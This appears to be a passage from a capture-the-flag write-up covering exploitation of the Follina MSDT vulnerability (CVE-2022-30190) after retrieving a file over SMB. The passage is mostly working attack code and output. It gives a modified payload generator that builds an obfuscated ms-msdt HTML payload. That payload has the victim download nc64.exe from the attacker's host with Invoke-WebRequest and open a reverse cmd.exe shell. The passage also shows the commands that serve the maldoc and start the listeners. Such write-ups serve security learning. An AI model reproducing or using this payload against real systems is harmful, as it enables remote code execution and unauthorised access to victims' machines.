 ```bash

                9116415 blocks of size 4096. 1591614 blocks available

smb: \> get NOC_Reminder.pdf
getting file \NOC_Reminder.pdf of size 106977 as NOC_Reminder.pdf (159.3 KiloBytes/sec) (average 159.3 KiloBytes/sec)
```
From the pdf we get good indication that this is gonna be about sending a Follina payload to the support email

### CVE-2022-30190 - Follina
Lord John Hammond did a thing, and it's really nice:
[https://github.com/JohnHammond/msdt-follina](https://github.com/JohnHammond/msdt-follina)  
with the simplest args this generates a follina payload, and serves it over http on port 8000  
if we use the --reverse flag, it slaps a reverse shell payload into the follina ms-msdt thing  
and even opens a netcat listener for us to catch the shell  
the code John wrote is actually fetching nc64.exe from his own github  
and uses that to call back from the victim's machine  
Of course this isn't gonna do the trick for us, since the victim doesn't have internet access  
So lets change the code slightly to host nc64.exe on our machine on another webserver on 9191  
```python
if args.reverse:
        command = f"""Invoke-WebRequest http://10.10.14.43:9191/nc64.exe -OutFile C:\\Windows\\Tasks\\nc.exe; C:\\Windows\\Tasks\\nc.exe -e cmd.exe {serve_host} {args.reverse}"""

    # Base64 encode our command so whitespace is respected
    base64_payload = base64.b64encode(command.encode("utf-8")).decode("utf-8")

    # Slap together a unique MS-MSDT payload that is over 4096 bytes at minimum
    html_payload = f"""<script>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \\"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'{base64_payload}'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\\""; //"""
    html_payload += (
        "".join([random.choice(string.ascii_lowercase) for _ in range(4096)])
        + "\n</script>"
    )
```
generating the payload and starting the webserver and listener all at once  
```bash
./follina.py -i tun0 -r 9090
[+] copied staging doc /tmp/y9v6zrd8
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
[+] starting 'nc -lvnp 9090'
listening on [any] 9090 ...
```
and starting the webserver on 9191 for netcat
```bash
python3 -m http.server 9191                               2 ⨯
Serving HTTP on 0.0.0.0 port 9191 (http://0.0.0.0:9191/) ...
```
